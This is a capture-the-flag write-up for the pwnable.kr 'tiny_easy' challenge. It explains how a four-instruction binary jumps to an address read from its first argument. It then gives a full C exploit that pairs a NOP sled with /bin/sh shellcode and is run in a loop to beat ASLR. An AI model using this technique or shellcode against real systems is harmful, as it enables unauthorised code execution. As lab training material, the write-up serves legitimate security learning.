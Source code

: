# tiny_easy

This challenge is about exploiting a very tiny program.

## The challenge

When program we have to exploit is only 4 instructions long which look like this:

```assembly
0x8048054: pop eax
0x8048055: pop edx
0x8048056: mov edx, DWORD PTR [edx]
0x8048058: call edx
```

To see which values were popped into *eax* and *edx*, I looked at the stack on the start of the program.

![](/home/nir/Documents/vuln-research/challenges/write-ups/pwnable.kr/tiny_easy/initial_stack.png)

So, after the first two instructions eax=1 and edx=0xffc40dbe, where 0xffc40dbe contains "/home/tiny_easy/tiny_easy". This means, that the first value is the program argument count, and the second value is the first argument, which means that first 4 bytes of the first argument of the program are stored in edx, and the next instruction calls the resulting address.

![](/home/nir/Documents/vuln-research/challenges/write-ups/pwnable.kr/tiny_easy/first_argument.png)

## The exploit

In order to exploit this program, we only need to point in the first argument to some address which contains our code. As the stack is executable, this would have been easy unless the program used ASLR, which it unfortunately does. Therefore, we cannot deterministically know what address to jump to, although we can guess.

The address space of the stack seems to be 0xff000000-0xffffffff, so we just need to put some shellcode in the program arguments and jump to a random address in that range, and hope we get it right. One thing that can increase our chances of reaching our code is putting a lot of NOP instructions before our shellcode so the range our code takes is much bigger and we have a better change of hitting it.

I wrote a small program that runs *tiny_easy* with the exploit, and some shellcode that executes /bin/sh that i copied from the internet.

```c
#include <stdio.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <stdint.h>

#define ARG_LENGTH (0x1fff0)

void main()
{
    uint8_t shellcode[] =
        	  "\x31\xd2\x31\xdb\x31\xc9\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2"
              "\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69"
              "\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81";
    uint8_t arg0[] = { '\x99', '\x99', '\xc5', '\xff', '\0' };
    uint8_t arg1[ARG_LENGTH] = { '\0' };
    uint8_t *const argv[3] = { arg0, arg1, NULL };
    memset(arg1, 0x90, ARG_LENGTH);
    memcpy((uint8_t*)arg1+ARG_LENGTH-sizeof(shellcode)-4, shellcode, sizeof(shellcode)-1);
    arg1[ARG_LENGTH-2] = 0xcc;
    arg1[ARG_LENGTH-1] = '\0';

    execve("/home/tiny_easy/tiny_easy", argv, NULL);
}

```

I ran this program in a loop and after a few times it worked!

![](/home/nir/Documents/vuln-research/challenges/write-ups/pwnable.kr/tiny_easy/running_the_exploit.png)